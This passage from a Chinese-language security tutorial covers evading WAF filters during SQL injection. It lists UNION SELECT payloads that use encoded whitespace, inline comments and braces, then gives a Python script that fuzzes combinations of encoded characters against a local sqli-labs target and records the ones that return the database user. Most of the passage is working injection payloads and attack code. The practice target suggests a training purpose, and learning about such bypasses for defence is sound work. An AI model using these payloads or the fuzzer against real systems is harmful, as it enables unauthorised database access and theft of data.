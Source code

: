 
##### 位置五

(1) 空白符

`%09,%0a,%0b,%0c,%0d,%20,%2E`

```
1' union select 1,2,user() from%0dusers--+
```


(2)注释

` /*!*/ /**/ `

-1' union select 1,2,user() from /**/users--+



(3)花括号

```
1' union select 1,user(),3 from(users) --+  

1' union select 1,user(),3 from{x users} --+  
```


#### 0x03 FUZZ

很多时候，单一姿势是无法奏效绕过的，有些姿势也是需要大量 FUZZ 得到，使用大量字符编码对 SQL 语句的“位”进行 FUZZ，编写了一个简单Python脚本演示。

##### Python脚本

![](https://xzfile.aliyuncs.com/media/upload/picture/20201108164903-40f32b2a-219f-1.png)


```python
import requests
import itertools


List = ['%20','%09','%0a','%0b','%0c','%0d','%2d%2d','%23','%a0','%2D%2D%2B','%5C%4E','\\N']

count = 0
num = 2 #fuzz num 个字符组合
target = 'http://localhost/sqli-labs-master/Less-1/?id=-1\' '

for i in itertools.product(List,repeat=num):

    count += 1
    print(count,':',len(List)**num)

    str = ''.join((i))
    payload = '{}union select 1,user(),3 from users %23'.format(str)
    url = target + payload
    req = requests.get(url=url)

    if "root@localhost" in req.text:
        print(url)
        with open("result.txt",'a',encoding='utf-8') as r:
            r.write(str + "\n")

```

